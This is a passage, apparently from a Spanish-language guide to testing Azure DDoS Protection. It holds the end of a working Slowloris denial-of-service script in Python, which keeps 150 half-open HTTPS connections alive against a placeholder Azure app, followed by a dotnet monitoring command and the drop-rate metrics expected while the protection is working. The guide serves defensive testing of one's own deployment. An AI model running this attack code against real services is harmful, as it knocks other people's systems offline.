 ```python
            sock = self.create_socket()
            if sock:
                self.sockets.append(sock)
        
        print(f"⚡ {len(self.sockets)} conexiones establecidas")
        
        # Mantener conexiones abiertas
        while True:
            for sock in self.sockets[:]:
                try:
                    # Enviar header adicional para mantener viva la conexión
                    sock.send("X-a: b\r\n".encode())
                except:
                    self.sockets.remove(sock)
                    # Reemplazar conexión cerrada
                    new_sock = self.create_socket()
                    if new_sock:
                        self.sockets.append(new_sock)
            
            print(f"🔄 Manteniendo {len(self.sockets)} conexiones activas")
            time.sleep(10)

# Uso:
# python3 slowloris.py
target = "tu-aplicacion.azurewebsites.net"
slowloris = Slowloris(target, 443, 150)
slowloris.slowloris_attack()
```

### 📊 **MONITOREO DURANTE EL ATAQUE**

#### **Comando de Monitoreo Paralelo:**
```powershell
# Terminal dedicado para monitoreo en tiempo real
dotnet run -- monitor --resource-group "$resourceGroup" --subscription "$subscription_id" --public-ip "$publicIpName" --interval 5 --alert-threshold 100
```

#### **Métricas a Observar:**
```
📈 Durante el ataque deberías ver:
   Packets Dropped: 📈 INCREMENTO SIGNIFICATIVO
   Bytes Dropped: 📈 INCREMENTO PROPORCIONAL  
   Under DDoS Attack: ⚠️ TRUE (cuando se detecta)
   Attack Vectors: 📊 MÚLTIPLES (en ataques multi-vector)
   
💡 Signos de protección efectiva:
   ✅ Drop Rate alto (>80%) = Azure DDoS bloqueando tráfico
   ✅ Aplicación sigue respondiendo = Mitigación exitosa
   ✅ Alertas automáticas activadas = Detección funcionando
```
